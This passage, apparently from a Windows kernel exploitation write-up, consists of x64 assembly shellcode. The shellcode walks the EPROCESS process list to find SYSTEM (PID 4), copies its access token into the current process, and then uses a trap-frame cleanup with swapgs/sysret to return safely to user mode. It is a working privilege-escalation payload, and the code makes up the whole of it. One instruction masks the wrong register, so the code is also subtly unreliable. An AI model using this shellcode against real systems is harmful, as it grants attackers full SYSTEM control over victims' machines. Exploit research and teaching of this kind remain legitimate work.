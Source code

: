 ```
cleanup:
  mov rax, [gs:0x188]       ; _KPCR.Prcb.CurrentThread
  mov cx, [rax + 0x1e4]     ; KTHREAD.KernelApcDisable
  inc cx
  mov [rax + 0x1e4], cx
  mov rdx, [rax + 0x90]     ; ETHREAD.TrapFrame
  mov rcx, [rdx + 0x168]    ; ETHREAD.TrapFrame.Rip
  mov r11, [rdx + 0x178]    ; ETHREAD.TrapFrame.EFlags
  mov rsp, [rdx + 0x180]    ; ETHREAD.TrapFrame.Rsp
  mov rbp, [rdx + 0x158]    ; ETHREAD.TrapFrame.Rbp
  xor eax, eax  ;
  swapgs
  o64 sysret  
```

now our shellcode is 

```
[BITS 64]
start:
  mov rax, [gs:0x188]       ; KPCRB.CurrentThread (_KTHREAD)
  mov rax, [rax + 0xb8]     ; APCState.Process (current _EPROCESS)
  mov r8, rax               ; Store current _EPROCESS ptr in r8

loop:
  mov r8, [r8 + 0x1d8]      ; ActiveProcessLinks 
  sub r8, 0x1d8            ; Go back to start of _EPROCESS 
  mov r9, [r8 + 0x1d0]      ; UniqueProcessId (PID) 
  cmp r9, 4                 ; SYSTEM PID? 
  jnz loop                  ; Loop until PID == 4

replace:
  mov r9, [r8 + 0x248]      ; Get SYSTEM token
  and cl, 0xf0              ; Clear low 4 bits of _EX_FAST_REF structure
  mov [rax + 0x248], r9     ; Copy SYSTEM token to current process


cleanup:
  mov rax, [gs:0x188]       ; _KPCR.Prcb.CurrentThread
  mov cx, [rax + 0x1e4]     ; KTHREAD.KernelApcDisable
  inc cx
  mov [rax + 0x1e4], cx
  mov rdx, [rax + 0x90]     ; ETHREAD.TrapFrame
  mov rcx, [rdx + 0x168]    ; ETHREAD.TrapFrame.Rip
  mov r11, [rdx + 0x178]    ; ETHREAD.TrapFrame.EFlags
  mov rsp, [rdx + 0x180]    ; ETHREAD.TrapFrame.Rsp
  mov rbp, [rdx + 0x158]    ; ETHREAD.TrapFrame.Rbp
  xor eax, eax  ;
  swapgs
  o64 sysret  
```
